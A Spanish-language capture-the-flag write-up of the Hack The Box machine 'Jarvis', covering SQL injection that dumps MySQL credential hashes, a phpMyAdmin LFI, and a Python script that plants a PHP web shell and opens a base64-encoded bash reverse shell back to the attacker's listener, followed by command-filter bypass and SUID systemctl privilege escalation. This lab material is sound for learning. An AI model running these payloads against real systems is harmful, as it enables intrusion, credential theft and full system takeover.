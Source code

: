 ```yaml
---
title : Máquina|Jarvis|HTB|SQL|SUID
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="imgs/Jarvis/Jarvis0.png" style="border-radius: 190px; width: 169px" alt="Jarvis">
    <div>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Media </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://app.hackthebox.com/machines/194" style="color: lightblue;">Jarvis</a></p>
    </div>
</div>

<h2><font color="white"><center># Jarvis</center></font></h2>
<br>


* <p>Vemos que es una maquina Linux a lo que nos enfrentamos por el TTL.</p>
>
<img src="imgs/Jarvis/Jarvis1.png">

* <p> Empezamos enumerando los puertos del servidor.</p>
>
<img src="imgs/Jarvis/Jarvis2.png">

* <p> Ahora procedemos a enumerar las tecnologías.</p>
>
<img src="imgs/Jarvis/Jarvis3.png">

* <p> Enumeramos directorios y archivos activos de la pagina web.</p>
>
<img src="imgs/Jarvis/Jarvis4.png">
>

* <p> Observamos el phpmyadmin y probamos credenciales por defecto.</p>
>
<img src="imgs/Jarvis/Jarvis5.png">

* <p> Al estar enumerando la pagina mire que era susceptible a un ataque de inyección sql.</p>
>
<img src="imgs/Jarvis/Jarvis6.png">
>
`union select 1,2,group_concat(User,0x3a,Password),4,5,6,7 from mysql.user-- -`

* <p> Procedemos a descifrar el hash que es MySQL 4.1, y sacamos como resultado la credencial: imissyou</p>
<img src="imgs/Jarvis/Jarvis7.png">


* <p> Procedemos a conectarnos en el panel previamente descubierto anteriormente.</p>
>
<img src="imgs/Jarvis/Jarvis8.png">

* <p> Procedemos a ver en searchsploit si hay exploits dedicados a esta version de phpmyadmin 4.8.0, vemos que puede ser susceptible a LFI.</p>
>
<img src="imgs/Jarvis/Jarvis9.png">
* <p> Vemos la posterior ruta en la que este exploit acude para poder tener un LFI y observamos la siguiente url</p>
>
<img src="imgs/Jarvis/Jarvis10.png">

* <p> Alistamos el /etc/passwd y vemos que si es vulnerable a un LFI</p>
>
<img src="imgs/Jarvis/Jarvis11.png">

* <p>No vemos nada relevante asi que procedemos a cargar un archivo por medio de la inyección SQL en la pagina web </p>
>
<img src="imgs/Jarvis/Jarvis12.png">

* <p>Vemos que nos interpreta el código.</p>
>
<img src="imgs/Jarvis/Jarvis13.png">

* <p>Posteriormente nos creamos un "exploit" para que nos automatice todo, lo que hace es codificar en base64 una reverse Shell, lanza la petición para que se aloje en el directorio 10.10.10.143/rem.php para posteriormente lanza otra petición a ese directorio del sistema mientras nos ponemos en escucha por el puerto 5550.</p>

```python
#!/usr/bin/python3
import requests
import sys
import signal
import time
import threading
from pwn import *

def salida(sig, frame):
	print("saliendo")
	sys.exit(1)

signal.signal(signal.SIGINT, salida)

#Cree su propia Shell base64 : echo "/bin/bash -i >& /dev/tcp/IP/5550 0>&1" | base64 
base64 = "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjIvNTU1MCAwPiYxCg=="
port = 5550
url_ = "http://10.10.10.143"
file = "rem.php"

create_file = "http://10.10.10.143/room.php?cod=10%20union%20select%201,2,%22%3C?php%20system(%27echo%20{base64}%20|base64%20-d%20|bash%20%27);?%3E%22,4,5,6,7%20into%20outfile%20%22/var/www/html/{file}%22--%20-"
def pwned_shell():
    get_file = requests.get(create_file)
    get_shell = requests.get(f"{url_}/{file}")

try:
    threading.Thread(target=pwned_shell, args=()).start()
except Exception as e:
    log.error(str(e))

server = listen(port, timeout=20).wait_for_connection()
server.interactive()

```

* exploit.py
>
<img src="imgs/Jarvis/Jarvis15.png">

* <p> Procedemos a ejecutar el exploit. </p>

<center>
<video width="600" autoplay loop muted style="position: relative; width: 700px;border-radius: 12px;">
  <source src="imgs/Jarvis/video.mp4" type="video/mp4">
  Tu navegador no soporta la reproducción de video.
</video> 
</center>
* <p> Como quiero crearme una full tty no usare este exploit, sino que me pondré en escucha no netcat por el puerto 5550 y ejecuto el script.</p>
>
<img src="imgs/Jarvis/Jarvis16.png">

* <p> Procedemos cone el tratemiento de la Shell para tener una full tty.</p>
>
<img src="imgs/Jarvis/Jarvis18.png">
<img src="imgs/Jarvis/Jarvis19.png">
<img src="imgs/Jarvis/Jarvis21.png">

* <p>En este punto podríamos ver la flag de jarvis.</p>
>
<img src="imgs/Jarvis/Jarvis35.png">

* <p>Vemos que tenemos permiso para ejecutar un archivo en python siendo el usuario pepper.</p>
>
<img src="imgs/Jarvis/Jarvis36.png">

* <p>EL archivo python no esta del todo bien sanitizado. no me permite ejecutar ['&', ';', '-', '`', '||', '|'] pero no necesariamente tengo que usar estos caracteres para inyectar comandos y escalar privilegios, que paso si ahora ejecuto </p>
>
<img src="imgs/Jarvis/Jarvis22.png">

* <p>Vemos que al inyectar en el campo un $(echo "2"),recibimos la traza ICMP a mi interfaz 10.10.16.2 tun0.</p>
>
<img src="imgs/Jarvis/Jarvis23.png">

* <p>Si me hago una reverse Shell no podría ganar acceso al sistema por que no me permite el &, entonces para hacerle un Bypass a esta solicitud me creo un archivo temporal, en este almacenare la reverse Shell:</p>
>
<img src="imgs/Jarvis/Jarvis25.png">

* <p>Posterior mente me ejecuto el archivo. y ganamos acceso al sistema siendo pepper.</p>
>
<img src="imgs/Jarvis/Jarvis26.png">

* <p>Hacemos la Shell una full tty</p>
>
<img src="imgs/Jarvis/Jarvis27.png">

* <p>Ajustamos las filas y columnas.</p>
>
<img src="imgs/Jarvis/Jarvis30.png">

* <p>Vemos que tiene permisos SUID a systemctl lo que hace vulnerable, podemos crearnos una tarea siendo root.</p>
>
<img src="imgs/Jarvis/Jarvis31.png">

* <p>Estructura básica de una tarea systemctl</p>

```ruby
[Unit]
Description=Descripción del servicio
After=network.target

[Service]
Type=oneshot
ExecStart=/ruta/a/tu/programa

[Install]
WantedBy=multi-user.target
```

* <p>Configuramos los archivos y ganamos posteriormente acceso al sistema</p>
>
<img src="imgs/Jarvis/Jarvis33.png">

* <p>Posteriormente podemos ver la flag de root.</p>
>
<img src="imgs/Jarvis/Jarvis34.png">